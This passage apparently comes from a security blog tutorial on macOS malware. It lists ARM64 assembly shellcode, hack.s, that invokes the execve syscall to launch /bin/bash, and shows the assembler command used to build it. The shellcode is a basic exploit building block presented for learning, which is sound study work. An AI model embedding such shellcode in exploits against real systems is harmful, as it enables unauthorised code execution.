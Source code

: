 Also add `null`-terminated string for the shell path in data section.     

Full source code for this example looks like this `hack.s`:    

```nasm
; macOS ARM64 shellcode: run "/bin/bash"
; author cocomelonc
; https://cocomelonc.github.io/macos/2025/07/18/malware-mac-6.html

.global _start

.section __TEXT,__text

_start:
    ; prepare string "/bin/bash" on the stack
    adrp    x1, binzsh@page
    add     x1, x1, binzsh@pageoff

    ; prepare argv ["/bin/bash", NULL] on the stack
    sub     sp, sp, 16
    str     x1, [sp]
    mov     x2, #0
    str     x2, [sp, #8]

    mov     x0, x1          ; path
    mov     x1, sp          ; argv
    mov     x2, xzr         ; envp

    ; syscall execve (0x200003b)
    movz    x16, #0x3b
    movk    x16, #0x2000, lsl #16
    svc     #0x80

    ; fallback exit(1)
    mov     x0, #1
    movz    x16, #0x1
    movk    x16, #0x2000, lsl #16
    svc     #0x80

    .align 2
binzsh:
    .asciz "/bin/bash"
```

### demo 2

Let's go to see in action this second example. Compile it:    

```bash
as -arch arm64 hack.s -o hack.o
```

![malware](/assets/images/167/2025-07-18_12-34.png){:class="img-responsive"}    
